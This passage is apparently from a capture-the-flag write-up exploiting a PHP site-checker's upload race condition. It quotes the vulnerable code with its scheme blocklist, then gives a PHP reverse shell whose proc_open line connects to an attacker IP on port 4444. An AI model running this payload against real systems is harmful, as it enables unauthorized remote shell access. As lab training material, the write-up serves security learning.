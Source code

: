 2- This file will be deleted after the websites within it have been checked.
3- The web application takes time to check if the website is up or down before deleting the uploaded file.
4- The uploaded file will remain in the `uploads/<randomly_generated_directory_name>` directory while it is being checked.

```php
# Read the uploaded file.
	$websites = explode("\n",file_get_contents($final_path));

	foreach($websites as $site){
		$site=trim($site);
		if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
			$check=isitup($site);
			if($check){
				echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
			}else{
				echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
			}
		}else{
			echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
		}
	}

  # Delete the uploaded file.
	@unlink($final_path);
```

# Foothold: Shell as www-data

- From an attacker's perspective, we can upload a file with multiple links to gain more time before our uploaded file is deleted. Then, we can go to the `uploads/<randomly_generated_directory_name>` directory and click the uploaded file to see the results of the embedded PHP code.

![Image alt](/images/Pasted-image-20230102235728.png)

![Image alt](/images/Pasted-image-20230102235752.png)

- Okay, now that we have executed the `phpinfo()` function, we can start the process of creating our PHP reverse shell.

![Image alt](/images/Pasted-image-20230102235831.png)

- Let's check the `disable_functions` section to get an idea about the allowed and disabled PHP functions:

![Image alt](/images/Pasted-image-20230103000203.png)

- Here is the PHP reverse shell that I used:

```php
# shell.phar
http://google.com
http://google.com
http://google.com
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open('bash -c "bash -i >& /dev/tcp/10.10.14.12/4444 0>&1"', $descriptorspec, $pipes);
```